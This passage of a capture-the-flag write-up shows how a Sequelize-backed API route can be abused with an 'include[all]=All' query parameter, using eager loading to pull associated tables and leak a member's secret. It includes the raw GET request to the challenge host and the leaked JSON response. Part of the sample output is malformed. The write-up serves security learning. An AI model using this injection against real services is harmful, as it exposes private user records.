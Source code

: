 Which translate to:
```javascript!
db.Writeup.findAll({ 
    where: { category: "web" }
}
```
Hmm… Can we somehow leak member goroo’s secret via this route?

If we dig deeper into the Sequelize version 6 documentation, we’ll see that there’s a feature called “Eager Loading”.

> […]eager Loading is the act of querying data of several models at once (one ‘main’ model and one or more associated models). At the SQL level, this is a query with one or more joins. […] In Sequelize, eager loading is mainly done by using the include option on a model finder query (such as findOne, findAll, etc).

Huh, looks like we can use option include to fetch a table (Model) associated with a table?

In this documentation, it also mentioned that we can include all associated tables via all option:
```javascript!
// Fetch all models associated with User
User.findAll({ include: { all: All } });
```
By looking at the table Writeup’s relationships, we can leak member goroo’s secret by including all the relationships.

To do so, we could send the following GET request to /api/writeups:
```javascript!
GET /api/writeups?include[all]=All HTTP/2
Host: erm.be.ax
```
```javascript!
{"writeups":[{
    "id":14,
    "title":"LuxateCTF 2023 - pwn/scrummiest Writeup",
    "slug":"luxatectf-2023-pwnscrummiest-writeup",
    "content":"Stating guildsman as[...]",
    "date":"2023-10-08T00:00:00.000Z",
    "category":"pwn",
    "createdAt":"2024-11-06T07:27:13.412Z",
    "updatedAt":"2024-11-06T07:27:13.431Z",
    "MemberUsername":"ryaagard",
    "Member"
        {
            "username":"ryaagard",
            "secret":null,
            "kicked":false,
            "createdAt":"2024-11-06T07:27:12.569Z",
            "updatedAt":"2024-11-06T07:27:12.569Z"
    }},
```

Nice! We now nest included table Category!

if we do the same thing again, we’ll leak member goroo’s secret!
